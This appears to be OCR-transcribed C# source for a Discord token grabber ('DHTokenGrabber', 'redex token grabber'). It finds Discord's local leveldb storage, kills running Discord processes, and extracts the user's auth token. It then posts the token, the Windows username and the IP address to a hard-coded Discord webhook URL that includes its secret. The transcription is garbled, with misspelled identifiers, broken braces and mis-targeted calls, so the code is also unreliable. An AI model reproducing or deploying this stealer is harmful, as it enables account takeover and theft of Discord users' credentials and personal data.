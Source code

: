 https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
})),
try 
{
    HttpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).Result;
}
catch (Exception)
{
}
 }
 // Token: 0x060008 RID: 365 RVA: 0x0000818 File Offset: 0x00009A18
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,   string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "" + string.join("\n",new string[]
                {
                    content
                }) + ""
            },
            {
                "NamDO -Sam#0386"
                "redex token grabber"
            },
            {
                "https//cdn.discordapp.com/attachments/652f40427e1f5186ad54836074898279/discord -icon-png-13.png"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: RID:366 RVA:0x00008888 File Offset:e
    
